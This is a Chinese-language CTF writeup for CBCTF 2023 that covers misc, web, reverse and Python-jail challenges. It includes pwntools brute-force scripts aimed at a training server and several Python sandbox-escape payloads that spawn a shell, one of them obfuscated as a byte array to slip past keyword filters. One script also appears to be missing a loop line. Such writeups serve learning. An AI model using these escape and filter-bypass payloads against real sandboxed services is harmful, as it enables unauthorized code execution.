



# CBCTF 2023 Writeup

By RocketDev #2

## Misc

### Real Signin

JBN直接在通知里放了

### Tupper

把zip解压了，再把里面所有文件解压，用python脚本把按顺序把所有文件中的数字全部读取，
然后将拼接起来的数字用tupper生成图像，发现是倒过来的flag，逆转即可  


### 大地之母

以图搜图找不到，于是就想是哪个平台上的图，从getty image逛到视觉中国都不匹配；
然后根据图上的指南针想到地图，作为网安人，我先猜测是谷歌地图；
图片翻了一圈愣是没找到，然后在全景里找到了，第一个就是  


### EncodeTrick

python的文件编码不止文本编码，还有python[特定编码](https://docs.python.org/3/library/codecs.html#python-specific-encodings "codecs")  
compile代码时，不检查注释，但在直接用`python calc.py`时，会使用头上给出的编码解析文件；
因此可以使用编码`unicode-escape`，并给想运行的代码前写上`#\n`，这样就可以在 compile
时绕过检测，而在运行时执行  


> ~~一开始还以为是用shebang绕过~~  
> 这些题目的flag竟然是放在环境变量里的，是我pwn打多了不知道这一点吗...

**感谢JBN的大力指导！**

## Web

### Another Signin

dns + txt，直接从域名解析结果看就可以了  


### BeginnerTetris

~~这俄罗斯方块怎么拿再高的分都拿不到flag啊~~

源代码末尾藏了先后两个部分的flag的base64编码，分别解析并拼接拿到flag

```
ZmxhZ3tZT3UxcmVfZnIwbnQ= -> flag{YOu1re_fr0nt @ GamePageViewer.ts
X0VuZF9tQXN0MXJfNl42fQ== -> _End_mAst1r_6^6}  @ PageConfig.ts
```

## Reverse

### Pwn

买flag不做校验，买0个就能拿到flag
```
Welcome to the Shop! Your balance is: 20
1. Buy
2. Sell
3. Exit
Choose an option (1-3): 1
You have chosen to buy.
Available items and their prices:
  1. Humble (5)
  2. Yolbby (10)
  3. Flag (1000)
Select an item (1-3): 3
Enter the quantity to buy: 0
Congratulations, you bought 0 Flag(s) for 0, current balance: 20.
CBCTF{4e82e49c-1bcb-4cf9-8576-f6064a1603a7}
```

### 原来你也玩原神

想先逆向的，发现有winlicense的壳，尝试脱壳，有好似没脱，
于是猜了几个热门角色，发现都不对，遂动调

输入口令后一路步过，最终发现内存中的flag，顺便还发现了拿到flag的口令  
口令是“我不玩原神”，但是忘记截图了

~~原神怎么你了~~


### TIVM-Checkin

从1-10000爆破，没一个对的，于是就试了114514，然后就拿到flag了  
~~最意外的一集~~  
~~高强度网上冲浪大学生必知数字~~

```
> python run.py
Welcome to CBCTF 2023!
Now guess my lucky number:114514
Great! Here is your flag:
CBCTF{W31c0me_to_C8CTF2O23!!!}
```

### Crypto

ghidra反编译发现核心代码：

```c
right = 0x2b;
left = 0;
j = 0;
printf("flag:");
while (left <= right) {
    mid = left + (right - left) / 2;
    putchar((uint)fbuf[mid]);
    fflush(stdout);
    ewma_weight = (double)ewma(ewma_weight,list[j],alpha);
    if (ewma_weight <= 0.5) {
        right = mid + -1;
        j = j + 1;
    } else {
        left = mid + 1;
        j = j + 1;
    }
}
```

又知序列码由6位0和1组成，因此可以先推算出所有序列码对应的字符索引，
然后连靶机，遍历所有字符集，最后汇总形成flag

```python
from pwn import *

def genSerial() -> list:
    bucket = []
    for i in range(64):
        box = [] # individual serial indexes
        bi = bin(i + 64)[3:] # 0b1[001010] for example
        bins = list(map(int, bi))
        l = 0
        r = 43
        j = 0
        weight = 1.0
        while l <= r:
            m = l + (r - l) // 2
            box.append(m)
            weight = 0.5 * weight + 0.5 * bins[j]
            if weight <= 0.5:
                r = m - 1
                j += 1
            else:
                l = m + 1
                j += 1
        bucket.append(box)
    return bucket

def iterAll(lo:bool) -> list:
    bucket = []
    i = 0
    eof = 0
    while i < 64:
        try:
            bi = bin(i + 64)[3:]
            if lo:
                sh = process('./serial')
            else:
                sh = remote('training.0rays.club', 10003)
            sh.recvuntil(b':')
            sh.sendline(bi.encode()) # send generated serial
            sh.recvuntil(b'flag:')
            chars = list(sh.recvline(False).decode())
            bucket.append(chars)
            sh.close()
            print(f'round {i + 1} passed')
            i += 1
            eof = 0
        except EOFError: # sometimes we may lose connection when brute force
            sh.close()
            eof += 1
            print(f'round {i + 1}, meet eof #{eof}')
            continue # so we need to reconnect
    return bucket

def apply(lo):
    idxs = genSerial()
    vals = iterAll(lo)
    table = []
    # get index for every char
    for i in range(43):
        for j in range(64):
            jmp = False
            for k in range(len(idxs[j])):
                if idxs[j][k] == i:
                    table.append((j, k))
                    jmp = True
                    break
            if jmp:
                break

    # and concat broken flags
    merge = ''
        merge += vals[table[i][0]][table[i][1]]
    print(merge)
```

### Misc

这个文件会检查flag与输入内容的匹配度并输出，由读入的内容可知flag长43字节，
并且所有的flag格式都是固定的，那么只要把那些16进制字符一个一个爆破出来就可以了；
每爆破成功一个字符，匹配率都会上涨，可以以此确定爆破结果的正确与否

```python
from pwn import *

def test(sh:tube, flag:str) -> str | None:
    try:
        sh.recvuntil(b':')
        sh.sendline(flag.encode())         # send incomplete flag
        sh.recvuntil(b'age:')
        return sh.recvline(False).decode() # return match rate
    except EOFError:
        return None
    
gapmap = [] # mapping for char poistions
gapmap.extend(range(6, 14))
gapmap.extend(range(15, 19))
gapmap.extend(range(20, 24))
gapmap.extend(range(25, 29))
gapmap.extend(range(30, 42))

HEX = [hex(i)[2:] for i in range(16)] # 01234567890abcdef

def bruteforce(lo:bool, port:int=0):
    base = 'CBCTF{        -    -    -    -            }'
    match = '25.58%'
    print(f'starts with flag "{base}" with coverage {match}')
    base = list(base)
    for i in range(32):
        eof = 0
        h = 0
        while h < 16:
            if lo:
                sh = process('./flag_coverage')
            else:
                sh = remote('training.0rays.club', port)
            base[gapmap[i]] = HEX[h]
            ret = test(sh, ''.join(base))
            sh.close()
            if ret is None: # sometimes we lose connection with server
                eof += 1
                continue
            if ret != match:
                match = ret # we don't need to store the float value; just compare the str
                break
            h += 1
        if lo:
            extraInfo = ''
        elif eof:
            extraInfo = f'with {eof} times of eof' # though this time I didn't meet eof
        else:
            extraInfo = 'successfully'
        print(f'digit {i + 1} passed {extraInfo} ({HEX[h]})')
    print(f'finally we get the flag: {"".join(base)}')
```

### TIVM-Traceme

Checkin的复刻版，但是exe  
不过这个程序是一个字符一个字符检查flag的，如果错误，则直接报错，
如果正确，则可以继续读取输入的flag，因此可以一个字符一个字符输入来爆破，
一旦错了就有输出，正确则没有

因此写出以下模拟程序和脚本，进行爆破

```c
// emulate.c
// gcc -O2 -o emulate emulate.c
#include <stdio.h>

int ops[0x763];

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    FILE *bin;
    bin = fopen("./traceme.bin", "rb");
    fread(ops, 4, 0x763, bin);
    fclose(bin);
    int idx = 0;
    char chr;
    char tmp;
    do {
        int a1 = ops[idx + 1];
        int a2 = ops[idx];
        int a3 = ops[idx + 2];
        idx += 3;
        if (a1 < 0)
            putchar(ops[a2]);
        else if (a2 < 0) {
            chr = getchar();
            a2 = chr;
            ops[a1] = a2;
        } else {
            ops[a1] -= ops[a2];
            if (ops[a1] < 1)
                idx = a3;
        }
    } while (idx < 0x761);
}
```

```python
from pwn import *

DICT = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890-_}'
LEN = len(DICT)

def brute():
    flag = list('CBCTF{')
    print('we start brute force with "CBCTF{"')
    while flag[-1] != '}':
        i = 0
        eof = 0
        while i < LEN:
            try:
                sh = process('./emulate')
                sh.send(''.join(flag).encode())
                probe = DICT[i] # step by a single char
                sh.send(probe.encode())
                if not sh.recvuntil(b'O', timeout=0.25):   # if we can't get 'O' in 0.25s then the char is incorrect
                    print(f'digit {len(flag)} is {probe}') # as we may only succeed n times and fail n * LEN times
                    sh.close()                             # so check failure spend less time (local program runs fast)
                    flag.append(probe)
                    break
                sh.close()
                i += 1
            except EOFError: # here is kinda strange as when we complete correct flag, we get eof
                print(f'digit {len(flag)} is {probe}')
                sh.close()
                flag.append(probe)
                break
        if i == LEN:
            print(f'DICT is not enough for digit {len(flag)}') # fortunately I didn't meet this case
    print(f'now we get the flag: {"".join(flag)}')
```

## 签到

CV工程师一大早上班拿下一血！

## pyjail

### level 1

类似EncodeTrick，只不过没有限制

```python
import os
print(os.environ.get('FLAG'))
```

### level 2

没啥限制，nc连接，直接拿shell

```python
exec('import os;os.system("sh")')
```

### level 3

13字符限制，靠读取绕过

```python
exec(input())
```
### level 4

12字符限制，靠断点拿shell

```python
breakpoint()
```

### level 5

禁用了import等字样，尝试将payload用8进制发送再解码

```python
exec(bytes([105, 109, 112, 111, 114, 116, 32, 111, 115, 59, 32, 111, 115, 46, 115, 121, 115, 116, 101, 109, 40, 34, 115, 104, 34, 41]).decode())
```

### level 6

禁用了小写字符，因此通过unicode近似字符绕过；要注意的是符号可以由unicode解析成小写字符，
但是字符串不行，会保持原样，因此考虑用8进制绕过



